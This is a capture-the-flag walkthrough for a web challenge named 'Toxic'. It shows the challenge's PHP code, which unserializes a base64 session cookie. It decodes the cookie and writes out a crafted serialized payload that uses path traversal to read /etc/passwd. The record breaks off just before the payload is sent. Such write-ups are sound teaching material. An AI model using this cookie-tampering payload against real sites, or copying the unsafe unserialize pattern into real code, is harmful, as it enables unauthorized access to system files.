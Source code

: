 # Toxic

## Abstract
*Category* : **web challenge**<br/>
*Challenge name* : **Toxic**<br/>
*Host* : `138.68.156.57:32327`<br/>
*Description* : Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸<br/>
*Status* : **SOLVED**<br/>

## Walktrough
Once I have started the instance and downloaded the attached files,
first thing that I noticed was this *index.php* file inside the *challenge* folder

```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```
Something that catches the eye is the `PHPSESSID` cookie which, based upon the php code, is base64 encoded.  

Reaching the challenge web page we can read this cookie value with our browser dev tools,<br/>
The value of 'PHPSESSID' cookie is `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9`.<br/><br/>
Next obvious thing is to decode this value to see if we get something valuable:
```console
echo "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9" | base64 -d          ─╯
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}%
```  
This, paired with the aforementioned `php` code suggest that the system make use of the cookie to create the page model  
based upon a file template, in this case `/www/index.html`.  
Just to test our theory, Let's try to modify the file path specified in the cookie and see if we can retrieve something that is on the machine: 
we will base64 encode this payload 
```console
O:9:"PageModel":1:{s:4:"file";s:22:"../../../../etc/passwd";}
```  
Now Let's try submit this cookie with burp suite: